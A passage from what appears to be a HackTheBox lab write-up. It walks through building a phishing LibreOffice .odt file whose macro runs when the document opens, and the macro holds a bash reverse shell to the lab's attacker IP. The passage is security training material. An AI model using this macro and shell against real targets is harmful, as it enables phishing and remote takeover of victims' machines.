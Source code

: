 I’ve shown phishing with LibreOffice documents before. In [RE](https://0xdf.gitlab.io/2020/02/01/htb-re.html#prepare-document), I made an `.ods` (equivalent of Excel for LibreOffice) file with a macro to run on opening, and it needed to avoid some Yara filters detecting Metasploit payloads. In [Rabbit](https://0xdf.gitlab.io/2022/04/28/htb-rabbit.html#phishing), I created a `.odt` file for an OpenOffice target (OpenOffice and LibreOffice are very similar, and use the same file extensions).

#### Create Document

I’ll open LibreOffice Writer (like Word) and put some dummy text into the document:

![image-20231024211104767](https://0xdf.gitlab.io/img/image-20231024211104767.png)

And save it as `report.odt`.

I’ll open the “Organize Macros > Basic” menu:

![image-20231024212106047](https://0xdf.gitlab.io/img/image-20231024212106047.png)

Here, I’ll find my document, and under “Standard”, click, and select the “New” button:

![image-20231024212220990](https://0xdf.gitlab.io/img/image-20231024212220990.png)

This pops a dialog asking for a name, and then opens the macro editor:

![image-20231024212258047](https://0xdf.gitlab.io/img/image-20231024212258047.png)

I’ll add a simple reverse shell:

```
Sub Main

	shell("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'")

End Sub

```

![image-20231026065556394](https://0xdf.gitlab.io/img/image-20231026065556394.png)

To get this to run automatically on opening, I’ll close the Macro editor and in the document window go to “Tools” > “Customize”. In the window that opens, I’ll go to the “Events” tab, click on “Open Document” and then “Macro…”:

![image-20231024212715560](https://0xdf.gitlab.io/img/image-20231024212715560.png)

I’ll select “Module1” and “Main”, and click ok:

![image-20231024212804933](https://0xdf.gitlab.io/img/image-20231024212804933.png)

It shows under “Assigned Action”:

![image-20231024212824959](https://0xdf.gitlab.io/img/image-20231024212824959.png)

I’ll save and close the document.

#### Deliver
